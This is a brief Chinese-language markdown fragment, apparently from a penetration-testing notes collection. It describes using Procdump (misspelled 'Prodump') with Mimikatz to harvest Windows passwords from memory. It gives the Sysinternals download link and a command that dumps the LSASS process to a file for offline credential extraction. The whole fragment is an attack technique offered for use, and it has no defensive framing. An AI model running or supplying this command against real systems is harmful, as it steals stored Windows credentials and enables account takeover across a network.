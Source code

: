 ##Mimikatz结合Prodump 获取内存密码
 
 `Prodump下载地址:https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump`
 
    prodump.exe -accepteula -ma lsass.exe lsass.dmp
